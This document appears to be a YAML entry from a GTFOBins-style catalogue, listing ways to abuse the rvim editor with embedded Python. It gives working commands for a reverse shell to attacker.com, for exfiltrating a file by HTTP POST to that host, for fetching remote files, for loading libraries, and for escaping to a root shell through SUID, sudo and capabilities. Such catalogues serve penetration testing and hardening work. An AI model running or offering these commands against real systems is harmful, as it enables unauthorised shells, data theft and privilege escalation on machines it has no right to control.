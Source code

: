 ```yaml
---
functions:
  shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  reverse-shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rvim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  file-upload:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
  file-download:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
  file-write:
    - description: This requires that rvim is compiled with Python support. Prepend `:py3` for Python 3.
      code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  library-load:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  capabilities:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

